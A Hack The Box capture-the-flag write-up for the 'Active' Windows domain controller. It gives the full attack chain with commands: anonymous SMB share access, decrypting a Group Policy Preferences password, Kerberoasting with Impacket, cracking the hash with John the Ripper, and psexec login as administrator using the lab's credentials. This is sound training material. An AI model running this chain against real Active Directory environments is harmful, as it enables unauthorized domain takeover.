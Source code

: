 # HTB - Active

##### Ip: 10.10.10.100
##### Hostname: active.htb
##### Rating: Easy

------------------------------------------------

![active_card](../assets/active_assets/active_card.png)

## Enumeration

As always, lets kick things off with an Nmap scan covering all TCP ports. Because I'm not worried about traffic or the 'noise' I'm making, I'm adding the `--min-rate 10000` attribute to speed things along:

```text
sudo nmap -p-  --min-rate 10000 10.10.10.100
```

As usual with Windows AD boxes, there's quite a few ports open here, with all the tell-tale signs of a Windows box (All those RPC ports), and an AD Domain Controller specifically (ports 53,88,389, etc). Here, I am scanning the discovered open ports from our `-p-` scan, and tacking on the `-sC` and `-sV` flags to enumerate versions and run common scripts against the ports:

```text
┌──(ryan㉿kali)-[~/HTB/Active]
└─$ sudo nmap -sC -sV -T4 10.10.10.100 -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49165,49168,49174
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 13:34 CDT
Nmap scan report for 10.10.10.100
Host is up (0.072s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-21 18:34:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
49174/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-04-21T18:35:09
|_  start_date: 2023-04-21T01:33:39
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: -2s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.01 seconds
```
Because there doesn't appear to be any http or FTP ports open, let's begin by enumerating the SMB ports (139/445) to try and find something juicy.

But before we do that, let's go ahead and add active.htb to the /etc/hosts file:

`10.10.10.100  active.htb`

### SMB Enumeration

Lately, my favorite way to enumerate shares (and my ability to read them) is with CrackMapExec. CME is an extremely powerful tool with so many use cases, and is one of my go-to tools when working with active directory (Here is a great cheat sheet/wiki on the tool: https://wiki.porchetta.industries/other-gitbook. In this case I tried enumerating shares with user 'guest' and a blank password (this didn't work, the Guest user had been smartly disabled), as well as a blank user and blank pw, which worked!

![smb_enum](../assets/active_assets/smb_enum.png)

Ok cool, so looks like I have read access to the Replication share; let's check that out. For this I'm reverting back to the old-school smbclient tool to see what we can find. (CME has some cool ways to further check shares using the spider feature, but I find smbclient easier for cases like this)

Running: `smbclient //10.10.10.100/replication` and simply hitting enter in lieu of a password gets me into the share. After poking around a bit I found an interesting file called Groups.xml, and used `get Groups.xml` to pull the file back to my machine. If on the fly, you can always use `more Groups.xml` which essentially just lets you read the file stored in temporary memory in a vim-like setting, but I prefer to store files like this locally, in case I need to revisit them.

This file proves to be super interesting!

![gpp_pw](../assets/active_assets/gpp_pw.png)

Here we have what appear to be a username SVC_TGS as well as a password. These Groups.xml files can be a goldmine for penetration testers because they can store extremely sensitive data (like PWs) as a Group Policy Preference (GPP) file, which can be decrypted using various tools. 

### Decrypting the PW Hash

Armed with this knowledge we can use the built in Kali tool gpp-decrypt:

```text
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![gpp_decrypt](../assets/active_assets/gpp_decrypt.png)

Nice! We were very easily able to crack this password! Seems we may now have some credentials, 
`SVC_TGS:GPPstillStandingStrong2k18`, lets see what we can do with them. 

### Kerberoasting

Going with a hunch based on the username (SVC_TGS or ticket-granting service), I'm going to try Kerberoasting first, and more specifically, because this is a machine account (SVC) I'm going to take a look at SPNs.

Using Impacket's tool GetUserSPNs I can run the following:

`impacket-GetUserSPNs -dc-ip 10.10.10.100 -request active.htb/SVC_TGS`

for an easy win at kerberoasting! Furthermore, this appears to be the administrator hash; we hopefully can use this cracked credential to login to the target with admin access. 

![kerberoast](../assets/active_assets/kerberoast.png)

### Cracking the Hash With JTR

From here I will simply copy the hash to a text file named kerb_hash, and let John The Ripper do the work for me to crack it:

Most excellent! John was able to crack the hash quite quickly:

![jtr_crack](../assets/active_assets/jtr_crack.png)

### Logging In

So now let's try to login with our newly found admin credentials of administrator:Ticketmaster1968.

Once again, Impacket to the rescue; let's try using psexec to login:

```text
impacket-psexec active.htb/administrator:Ticketmaster1968@10.10.10.100
```

And since I am logging in as administrator I can grab both flags on the SVC_TGS and Administrator desktops respectively.

![user_txt](../assets/active_assets/user_txt.png)

![root_txt](../assets/active_assets/root_txt.png)

And that's that! This was a great beginner friendly Active Directory box illustrating some key concepts needed to successfully enumerate and attack enterprise environments. 

### Something Extra

I recently found out about this and found it super interesting, so thought I would share here as well- Recall back to the screen shot after logging in as administrator, where I ran the `whoami` command and got a response back as `nt authority\system`.

Look what happens when I login using the very same credentials using a tool like wmiexec:

![wmiexec_login](../assets/active_assets/wmiexec_login.png)

Running `whoami` with this tool only lists me as active/administrator, whereas psexec will auto-elevate privileges to that of nt/system. For all intents and purposes my privileges are the same here, but for those of us that want to document the highest level of privileges (say for an examination, or to include in a report), psexec offers an easy win in that regard. Likely superficial, but interesting none-the-less. 

### Key Takeaways

- SMB can often contain a plethora of 'low hanging fruit' like we found here today. I was able to go from anonymous access to an SMB share to fully compromising the machine (or domain in this AD example) without anything too tricky, technically speaking. Sensitive information like credentials being stored in an open share like this is obviously not a good idea.

- Kerberoasting is an invaluable part of any attacker's arsenal. Learning about a few of the biggest attacks/concepts (golden/ silver tickets, SPNs, AS-REPs, etc) will pay dividends later on. 

- Similarly, Impacket and CrackMapExec are about as comprehensive and valuable tools as anyone could hope for when it comes to attacking Active Directory. These are huge tools that offer so much, and I am still only beginning to scratch there surface of what they can offer. Getting to know your tools is important in any line of work, but especially in pentesting. These are two worth getting to know well, in my opinion. 

Thanks for following along!

-Ryan

------------------------------------------------------------------------
